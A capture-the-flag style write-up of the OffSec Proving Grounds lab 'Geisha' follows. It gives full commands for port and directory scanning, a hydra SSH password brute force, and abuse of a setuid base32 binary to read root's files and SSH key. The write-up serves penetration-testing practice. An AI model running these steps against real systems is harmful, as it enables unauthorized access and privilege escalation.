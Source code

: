 ```yaml
---
title: OffSec PG - Geisha
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.56.82`

### Network Scan

Nmap scan &rarr; `nmap -sC -A -Pn -p- -o nmap.txt 192.168.56.82`

OS Detection &rarr;  `OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 21       | FTP         | vsftpd 3.0.3                                   |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |
| 7080     | HTTPS       | ssl/empowerid LiteSpeed                        |
| 7125     | HTTP        | nginx 1.17.10                                  |
| 8088     | HTTP        | LiteSpeed httpd                                |
| 9198     | HTTP        | SimpleHTTPServer 0.6 (Python 2.7.16)           |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.56.82:<ports> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed &rarr;

Port 8088 &rarr;

- cgi-bin/ (404)
- docs/
- blocked/ (403)

Port 7125 &rarr;

- shadow (403)
- passwd

The passwd file lists user `geisha`.

---

## Exploitation

With the username as `geisha`, a brute force was launched on the ssh server using hydra as follows &rarr; `hydra -l geisha -P /home/tanq/installations/SecLists/rockyou.txt ssh://192.168.56.82`.

This gives the password as `letmein`. After a successful login, the user flag can be obtained.

---

## Privilege Escalation

Using the user shell, enumerated for setuid binaries as follows &rarr; `find / -perm -u=s 2>/dev/null`.

This resulted in an interesting find for the binary `/usr/bin/base32`. This could be used to read files with a privileged access, thereby allowing reads of files owned by root. Therefore, it was used to read the root flag as follows &rarr;

```
file=/root/proof.txt
/usr/bin/base32 "$file" | /usr/bin/base32 --decode
```

This can also be used to obtain root shell by using it to leak the ssh key of root and then using it to log in to the machine via ssh.

This gave the root flag.

---
